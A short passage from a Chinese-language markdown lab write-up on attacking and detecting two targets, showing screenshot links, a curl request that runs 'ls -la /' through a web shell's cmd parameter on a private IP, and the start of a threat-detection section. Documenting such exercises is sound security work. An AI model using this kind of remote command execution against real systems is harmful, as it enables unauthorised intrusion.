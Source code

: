   ![1748017785746](image/第一层两靶标攻击与利用检测/1748017785746.png)

  ```bash
  # 查看当前目录结构
  curl "http://10.37.133.3:8630/index.php?cmd=ls%20-la%20/"
  ```

  返回结果显示根目录结构:

  ![1748017797697](image/第一层两靶标攻击与利用检测/1748017797697.png)

#### 4. 威胁检测
